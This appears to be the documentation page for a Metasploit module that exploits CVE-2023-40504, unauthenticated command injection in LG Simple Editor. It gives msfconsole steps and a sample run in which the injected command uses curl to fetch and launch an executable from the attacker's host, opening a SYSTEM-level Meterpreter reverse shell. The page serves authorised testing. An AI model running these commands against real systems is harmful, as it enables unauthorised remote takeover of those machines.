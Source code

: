 ## Vulnerable Application

This module exploits a command injection vulnerability in LG Simple Editor <= v3.21.0 (CVE-2023-40504).

An unauthenticated remote attacker can exploit this vulnerability to inject arbitrary OS commands, which will get executed in the context of
`NT AUTHORITY\SYSTEM`.

## Testing

The software can be obtained from
[the vendor](https://www.lg.com/us/business/display-solutions/supersign-w-lite/downloads/LGSimpleEditor_setup_v3_21_0.exe.zip).
The vulnerable application runs on Apache Tomcat 7, which listens by default on TCP port 8080.

**Successfully tested on**

- LG Simple Editor v3.21.0 on Windows 10 22H2

## Verification Steps

1. Install the application
2. Start `msfconsole` and run the following commands:

```
msf6 exploit(windows/http/lg_simple_editor_rce_uploadvideo) > use exploit/windows/http/lg_simple_editor_rce_uploadvideo 
[*] Using configured payload cmd/windows/http/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/lg_simple_editor_rce_uploadvideo) > set RHOSTS <IP>
msf6 exploit(windows/http/lg_simple_editor_rce_uploadvideo) > exploit
```

You should get a meterpreter session in the context of `NT AUTHORITY\SYSTEM`.

## Scenarios

Running the exploit against LG Simple Editor v3.21.0 on Windows 10 22H2, using curl as a fetch command, should result in an output similar
to the following:

```
msf6 exploit(windows/http/lg_simple_editor_rce_uploadvideo) > exploit 

[*] Command to run on remote host: curl -so %TEMP%\ELizAMEog.exe http://192.168.137.190:8080/Ufbk8y1KXtCzmtyya8K7Jg & start /B
%TEMP%\ELizAMEog.exe
[*] Fetch handler listening on 192.168.137.190:8080
[*] HTTP server started
[*] Adding resource /Ufbk8y1KXtCzmtyya8K7Jg
[*] Started reverse TCP handler on 192.168.137.190:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version: 3.21.0
[*] Sending command injection...
[*] Using random filename: JyQig.mp4
[*] Client 192.168.137.196 requested /Ufbk8y1KXtCzmtyya8K7Jg
[*] Sending payload to 192.168.137.196 (curl/8.7.1)
[*] Sending stage (201798 bytes) to 192.168.137.196
[+] Command injection sent.
[*] Exploit finished, check thy shell.
[*] Meterpreter session 67 opened (192.168.137.190:4444 -> 192.168.137.196:50129) at 2024-08-06 23:16:30 -0400

meterpreter > sysinfo 
Computer        : DESKTOP-1FD5QG3
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
